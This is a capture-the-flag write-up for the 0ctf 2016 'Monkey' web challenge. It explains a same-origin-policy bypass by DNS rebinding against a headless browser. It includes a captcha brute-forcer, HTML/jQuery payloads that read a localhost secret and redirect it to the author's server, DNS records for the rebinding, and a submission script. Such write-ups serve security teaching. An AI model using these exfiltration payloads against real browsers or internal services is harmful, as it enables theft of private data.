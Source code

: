 ```yaml
---
title: "0ctf 2016 writeup - Monkey (Web 4)"
author: zepvn
layout: post
categories:
  - Uncategorized
tags:
  - ctf
  - 0ctf
  - "CLGT-meepwn"
comments: true
excerpt:
---    
```

Just like other Web challenges, Monkey gave us a link to a simple website at [http://202.120.7.200](http://202.120.7.200) with a little hint: *"What is Same Origin Policy?"*.

![0ctf-2016-monkey]({{ site.url }}/uploads/2016/0ctf-monkey.png)

The goal is pretty clear: the monkey is actually some sort of headless browser and our job is to make it read the content hosted locally at [http://127.0.0.1/secret](http://127.0.0.1:8080/secret) and send it back to us. 

### Solving "captcha"

This captcha solving thing have been used in so many CTF's lately that it's getting trivial. For this particular captcha, I only needed to reuse my favourite bruteforce program in C with some small modifications:

```c++
// gcc md5.c -o puzzle -O3 -Wall -lcrypto

#include <stdio.h>
#include <string.h>
#include <openssl/sha.h>
   
int main(int argc, char const *argv[])
{
    unsigned int i,j;
    unsigned char buf[128];
    unsigned char res[128];
    unsigned int *p = (void *)&buf[0];

    for (i = 0; i < 0xffffffff; i++) {
        *p = i;
        MD5(buf, 4, res);
        if (!strncmp(res, argv[1], 3)) {
            printf ("GOOD: ");
            for (i = 0; i < 4; i++) {
                printf("%02x", buf[i]);
            }
            puts("");
            return 0;
        }
    }
    return 1;
}
```

### How to bypass the SOP

I started with a really naive solution with a hope that their webserver's CORS was wrongly configured. I submitted a URL containing the following HTML content hosted at a random place on my server:

```
<html>
<head>
	<script src="http://test.zepvn.com/jquery-2.2.1.min.js" type="text/javascript"></script>
</head>
<body>
    <script type="text/javascript">
    	$(document).ready(function(){
           $.ajax({
              url: "http://127.0.0.1:8080/secret",
              type: "GET",
              success: function (response) {
			       window.location='http://test.zepvn.com/response?data='+response;
              }
           });
		});
    </script>
</body>
```

Of course that didn't work and I was struggling a bit until my teammate forwarded this interesting bug report: [Bug 1106687 - Security: SOP bypass via DNS-Rebind (including PoC) ](https://bugzilla.mozilla.org/show_bug.cgi?id=1106687). It's basically a sample case of [DNS rebinding attack](https://en.wikipedia.org/wiki/DNS_rebinding). It's a form of attack where some evil guys make use of short TTL records on certain DNS servers and fool victims to visit two different locations (although with the same domain) of attacker's choice.  While the method mentioned in that bug report couldn't be used to solve this challenge, the main idea of using DNS rebinding makes perfect sense to bypass SOP here.

I also noticed that the "Monkey" was nice enough to hold our URL opened for 2 minutes. So I quickly drafted out the plan:
![0ctf-2016-monkey]({{ site.url }}/uploads/2016/0ctf-monkey-diagram-1.png)

In order to make the DNS record expire and get the browser to receive the new IP address, I created a real A record on my own domain name and point it to my server:

```
$ nslookup -type=A -debug hellokitty2.zepvn.com
Server:		8.8.8.8
Address:	8.8.8.8#53

------------
    QUESTIONS:
	hellokitty2.zepvn.com, type = A, class = IN
    ANSWERS:
    ->  hellokitty2.zepvn.com
	internet address = 52.62.61.237
	ttl = 600
    AUTHORITY RECORDS:
    ADDITIONAL RECORDS:
------------
Non-authoritative answer:
Name:	hellokitty2.zepvn.com
Address: 52.62.61.237
```

Notice that the TTL is pretty short (600 seconds). After submitting the URL to Monkey for the first time, I quickly changed the IP address to 127.0.0.1:

```
$ nslookup -type=A -debug hellokitty2.zepvn.com
Server:		8.8.8.8
Address:	8.8.8.8#53

------------
    QUESTIONS:
	hellokitty2.zepvn.com, type = A, class = IN
    ANSWERS:
    ->  hellokitty2.zepvn.com
	internet address = 127.0.0.1
	ttl = 600
    AUTHORITY RECORDS:
    ADDITIONAL RECORDS:
------------
Non-authoritative answer:
Name:	hellokitty2.zepvn.com
Address: 127.0.0.1
```

Once the secret data is returned back to browser, there are many ways to forward it to our server. In my case, I did a simple redirect to a random endpoint on my server with the secret data appearing on URL. The final HTML looks like this:

```
<html>
<head>
    <script src="http://hellokitty2.zepvn.com/jquery-2.2.1.min.js" type="text/javascript"></script>
</head>
<body>
    <script type="text/javascript">
    function loop_main_domain() {
        $.ajax({
            url: "http://hellokitty2.zepvn.com:8080/secret",
            type: "GET",
            success: function (response) {
                window.location='http://zepvn.com/response?data='+response;
            }
        });
    }

    $(document).ready(function(){
        setTimeout(loop_main_domain, 100000); // wait 100 seconds
    });
    </script>
</body>
```

At this point I was so close to getting the flag. The only problem was the monkey only kept the URL opened for 2 minutes while it would take the DNS record more than 10 minutes to expire. I overcame this by submitting the URL's non-stop hopefully that the moment when monkey's browser retrieved the new IP address would fall into the middle of one of those request sessions. This diagram might do a better job at explaining the trick:

![0ctf-2016-monkey]({{ site.url }}/uploads/2016/0ctf-monkey-diagram-2.png)

### Putting things together
I created a small Python script to automate the URL and captcha submission:

```
#! /usr/bin/env python2.7

import re
import requests
from subprocess import *

url = 'http://hellokitty2.zepvn.com:8080/pwn.html'

session = requests.Session()
r = session.get("http://202.120.7.200/")
main_page = r.text
prefix = re.search("=== '(.*?)'", main_page).group(1)

print "Prefix =", prefix
print "Bruteforcing ..."
proc = Popen(["./puzzle", prefix.decode("hex")], stdout=PIPE, bufsize=1)
output = proc.stdout.read()
string = output.split()[-1].decode("hex")
print "Found", string.encode('hex')
print "Sending ..."
r = session.post("http://202.120.7.200/run.php", data={'task': string, 'url': url})
print "Got response"
print r.text
```

And started to spam our poor Monkey with a lot of submissions:

```
$ while true; do ./monkey.py && sleep 5; done
```

After waiting for a while, I saw this in my server's access log:

```
183.195.251.195 - - [12/Mar/2016:11:26:50 +0000] "GET /response?data=0ctf%7Bmonkey_likes_banananananananaaaa%7D HTTP/1.1" 404 168 "http://hellokitty2.zepvn.com:8080/pwn.html" "Mozilla/5.0 0CTF by md5_salt" "-"
```

Without using any conversion tool, it's easy to say the flag is **0ctf{monkey\_likes\_banananananananaaaa}**.
